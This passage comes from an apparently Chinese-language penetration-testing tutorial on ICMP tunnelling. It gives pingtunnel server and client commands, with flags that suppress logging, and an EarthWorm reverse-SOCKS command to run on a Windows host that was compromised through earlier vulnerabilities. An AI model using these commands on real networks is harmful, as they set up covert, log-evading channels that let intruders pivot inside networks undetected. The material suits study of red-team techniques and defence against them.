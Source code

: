 ![image-20230606090924276](assets/NJWmMpie3cEOsR1.png)

```
./pingtunnel -type server  ##开启服务器模式
```

![image-20230606091039492](assets/wgyUxQKqdzYSBaW.png)

#### 2.1.3.4. Windows10操作

同样这里需要将所有工具提前上传到服务器上，至于如何上传，可通过前期的一些WEB漏洞、系统漏洞等获取到权限。

```
pingtunnel.exe -type client -l 127.0.0.1:3333 -s 192.168.3.76 -t 192.168.3.76:4444 -sock5 -1 -noprint 1 -nolog 1
```

![image-20230606091349876](assets/8GCD5rBaoeSnEsw.png)

```
ew.exe -s rssocks -d 127.0.0.1 -e 3333
```

![image-20230606091447720](assets/r5fP83iIUY2qhNZ.png)